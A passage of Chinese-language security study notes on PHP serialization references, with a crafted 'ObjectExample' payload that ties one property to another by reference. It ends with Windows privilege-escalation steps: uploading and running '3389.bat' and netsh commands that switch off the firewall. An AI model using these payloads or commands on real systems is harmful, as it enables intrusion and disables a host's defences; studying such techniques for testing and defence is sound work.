 使用指针类型

```
O:13:"ObjectExample":2:{s:10:"secretCode";N;s:5:"guess";R:2;}
```

其中索引值2表示对象的第一个属性，1表示整个对象。向外一层，依次数，再向内。

如下序列化

```php
<?php
class Demo {
	public $index;
	public $se1f;
    public $value;
    public $other;
}

$objA = new Demo();
$objB = new Demo();

$objA->index = 1;
$objA->value = "Hello!";
$objA->se1f = &$objA;
$objB->index = 2;
$objB->value = &$objA->value;
$objB->se1f = &$objB;
$objB->other = &$objB->index;
$objA->other = &$objB;

$data = serialize($objA);
echo $data;
?>
```

结果为

```
O:4:"Demo":4:{s:5:"index";i:1;s:4:"se1f";R:1;s:5:"value";s:6:"Hello!";s:5:"other";O:4:"Demo":4:{s:5:"index";i:2;s:4:"se1f";R:4;s:5:"value";R:3;s:5:"other";R:5;}}
```
## 提权

### Windows

- 上传 `3389.bat` 并运行

- 关闭防火墙（分别适用于低版本和高版本）

```cmd
netsh firewall set opmode disable

netsh advfirewall set allprofiles state off
```
